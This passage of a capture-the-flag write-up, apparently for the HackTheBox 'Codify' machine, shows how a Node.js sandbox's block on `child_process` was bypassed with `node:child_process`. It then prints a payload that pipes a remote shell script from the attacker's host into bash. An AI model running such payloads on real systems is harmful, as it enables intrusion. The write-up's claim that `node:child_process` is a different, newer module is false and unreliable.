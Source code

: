 So the obvious methods of achieving RCE are not allowed. When I tested it with `child_process`, it got blocked:

![](../../.gitbook/assets/htb-codify-image-2.png)

However, this does not mean that it blocks `node:child_process`:

![](../../.gitbook/assets/htb-codify-image-3.png)

![](../../.gitbook/assets/htb-codify-image-4.png)

`child_process` is an outdated module, whereas `node:child_process` is an entirely different module that is more efficient and runs with less overhead.

Using this, I ran this code to get a shell as the user `svc`:

```js
const { spawn } = require('node:child_process');
spawn('bash', [ '-c', 'curl 10.10.14.5/shell.sh|bash'],{'detached':true});
```

![](../../.gitbook/assets/htb-codify-image-5.png)

## Privilege Escalation
